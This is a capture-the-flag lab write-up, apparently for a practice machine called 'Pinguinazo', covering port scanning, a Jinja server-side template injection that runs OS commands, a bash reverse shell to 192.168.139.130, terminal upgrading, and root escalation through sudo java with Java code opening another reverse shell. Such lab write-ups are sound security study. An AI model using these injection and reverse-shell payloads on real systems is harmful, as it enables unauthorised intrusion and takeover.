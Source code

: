 # Pinguinazo

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
5000/tcp open  upnp    syn-ack ttl 64

```

## Examining ports

We are going to explore who is the version in this service, For it we execute this comand:

```ruby
nmap -sCV -p5000 172.17.0.2 
```
we obtain this dataset:
![alt text](Imagenes/Pingu_1.png)


## Analyzing web page

if we enter to the web page we obtain the folowing:

it look like a formulary create with `Jinja`.
![alt text](Imagenes/Pingu_2.png)

we can eccxcute html inyecction to verify if it has some filter.
![alt text](Imagenes/Pingu_3.png)

If we search some directory in another site with Gobuster tool , we find `/console`
we need a password to access the console.
![alt text](Imagenes/Pingu_4.png)


## Intrusion

We can try to access with `SSTI (Server Side Template Injection)`

We can run some comand to excute a SSTI like this:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

```
we obtain:

![alt text](Imagenes/Pingu_5.png)

succefully, we obtain response of the server who is our user.

Now we are going to prepare the reverse shell to connect with us.

Firstly we need to use nc tool:
```ruby
nc -lvnp 1234
```
we can exploit with following comands:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.139.130/1234 0>&1"').read()}}
```
![alt text](Imagenes/Pingu_6.png)


# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for pinguinazo on 17eb54554e98:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 17eb54554e98:
    (ALL) NOPASSWD: /usr/bin/java

```

We can see that we can execute the script in java, so we can try to file to spawn a shell with root privileges.

Therefore, we need to edit the script with the following code:

```ruby
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.139.130/4321 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo java Exploit.java
```
![alt text](Imagenes/Pingu_8.png)
![alt text](Imagenes/Pingu_9.png)

